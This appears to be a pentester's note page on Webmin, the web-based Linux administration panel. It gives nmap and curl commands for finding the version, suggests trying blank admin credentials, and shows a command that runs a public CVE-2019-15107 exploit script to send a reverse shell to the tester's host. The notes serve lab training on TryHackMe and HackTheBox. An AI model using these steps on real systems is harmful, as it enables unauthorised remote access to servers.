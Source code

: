 # webmin

<div class="row row-cols-lg-2"><div>

[Webmin](https://webmin.com/) <small>(3.3k ⭐)</small> is an open-source web-based interface for system administration for Linux systems. From the interface, we can:

* Manage packages
* Manage users
* Manage system configurations
* Manage network configurations
* ...

**Port** 🐊: 10000 (TCP)
</div><div>

To edit the DNS configuration, navigate to <kbd>Networking > Network Configuration > Hostname and DNS Client</kbd>.
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Enumeration

[![source](../../../../../cybersecurity/_badges/thm-p/source.svg)](https://tryhackme.com/room/source)

* You can use [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md)

```shell!
$ nmap -p 10000 IP
10000/tcp open  snet-sensor-mgmt
$ nmap -p 10000 -sV IP
10000/tcp open  http    syn-ack MiniServ 1.890 (Webmin httpd)
```

* You can use cURL too if you want to find the version

```shell!
$ curl -s -I -k https://IP:10000 | grep Server
Server: MiniServ/1.890
```
</div><div>

#### FootHold

[![modern_web_exploitation_techniques](../../../../../cybersecurity/_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)

It might be worth testing `admin:<blank>` credentials.

<br>

#### Well-Known CVEs

[![source](../../../../../cybersecurity/_badges/thm-p/source.svg)](https://tryhackme.com/room/source)

* You may be able to exploit [CVE-2019-15107](https://github.com/squid22/Webmin_CVE-2019-15107/blob/main/webmin_exploit.py)

```shell!
$ [...] # start a reverse shell listener
$ python3 webmin_exploit.py target_ip target_port host_ip host_port
```
</div></div>